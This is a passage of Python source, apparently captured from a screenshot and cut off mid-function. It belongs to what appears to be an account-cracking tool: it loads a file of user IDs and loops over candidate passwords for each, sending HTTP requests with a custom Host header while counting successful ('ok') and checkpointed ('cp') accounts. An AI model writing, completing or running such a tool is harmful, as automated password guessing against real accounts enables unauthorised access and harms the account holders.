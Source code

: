                                 time.sleep(0.5) 
  
                                 exit("\n [✓] Thank You\n") 
  
 class __xxx__: 
  
     def __init__(self): 
  
         self.id = [] 
  
     def imtiaz(self,ak): 
  
         if 1 in fuck: 
  
             os.system('#') 
  
  
  
  
  
  
  
         self.cnt = input(' [*] Put File Name : ') 
  
         self.id = open(self.cnt).read().splitlines() 
  
         os.system('clear') 
  
         print(logo) 
  
         print("") 
  
         ___worldwide___ = ('y') 
  
         if ___worldwide___ in ('yes','Yes','Y', 'y'): 
  
             self.__pler__() 
  
         else: 
  
             print(' [!] Choose Correct One'); 
  
             self.sarfrazx(id) 
  
     def __metode__(self, user, __chi__, cebok): 
  
         global ok,cp,loop 
  
         sys.stdout.write(f"\r \x1b[1;33m[Zeehshsh]\x1b[1;33m {loop}|{len(self.id)} \x1b[1;32m[ok][{len(ok)}] ") 
  
         sys.stdout.flush() 
  
         try: 
  
             for pw in __chi__: 
  
                 pw = pw.lower() 
  
                 session=requests.Session() 
  
                 header = { 
  
                     "Host":cebok, 
  
                     "upgrade-insecure-requests":"1", 
  